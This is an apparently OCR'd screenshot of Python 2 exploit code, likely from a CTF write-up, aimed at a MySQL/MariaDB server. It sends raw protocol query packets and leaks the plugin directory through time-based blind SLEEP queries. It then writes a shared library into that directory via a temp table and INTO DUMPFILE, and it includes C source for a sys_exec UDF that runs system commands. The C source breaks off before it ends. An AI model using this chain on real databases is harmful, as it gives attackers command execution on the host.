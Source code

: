 ```python

def construct_query_packet(user, query):
	query = query.encode('hex')
	query_length = '{:x}'.format((len(query) / 2 ) + 1).rjust(2, '0')
	return encode(construct_handshake_response(user) + query_length + '00000003' + query + '0100000001') # COM_QUERY + len(query) + query

get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
create_file = 'SELECT {contents} INTO DUMPFILE "{filename}"'
get_file_not_exists = 'SELECT SLEEP(isnull(LOAD_FILE(0x{file})))'

def send(payload, debug=False, **kwargs):
	if debug is True:
		print payload.format(**kwargs)
	return execute(construct_query_packet(payload.format(**kwargs)))

plugin_dir = retrieve(get_env, env='plugin_dir') # -> /usr/lib/x86_64-linux-gnu/mariadb19/plugin/

def plant_long_file(filename, chunksize=64):

	send('DROP TABLE IF EXISTS mysql.temp')
	send('CREATE TABLE IF NOT EXISTS mysql.temp (data BLOB)')

	with open(filename, 'rb') as f:
		for i, chunk in enumerate(iter(lambda: f.read(chunksize).encode('hex'), b'')):
			if i is 0:
				send('INSERT INTO mysql.temp (data) VALUES (binary 0x{contents})'.format(contents=chunk))
			else:
				send('UPDATE mysql.temp SET data = concat(data, binary 0x{contents})'.format(contents=chunk))

	send(create_file, contents='binary data FROM mysql.temp', filename=plugin_dir + filename)

# architecture = retrieve(get_env, env='version_compile_machine') -> debian-linux-gnu
# os_system = retrieve(get_env, env='version_compile_os') -> x86_64

plugin_file = 'lib_mysqludf_sys_exec64.so'

if send(get_file_not_exists, file=(plugin_dir + plugin_file).encode('hex')):
	plant_long_file(plugin_file)

'''
// ubuntu bionic x64
// gcc -s -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -shared -o lib_mysqludf_sys_exec64.so lib_mysqludf_sys_exec64.c

#include <string.h>
#include <stdlib.h>
#include <mysql.h>

my_ulonglong sys_exec(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
  return system(args->args[0]);
}

my_bool sys_exec_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
  if (args->arg_count == 1 && args->arg_type[0] == STRING_RESULT) {
    return 0;
  } else {
    strcpy(message, "Expected exactly one string type parameter");
    return 1;
  }
```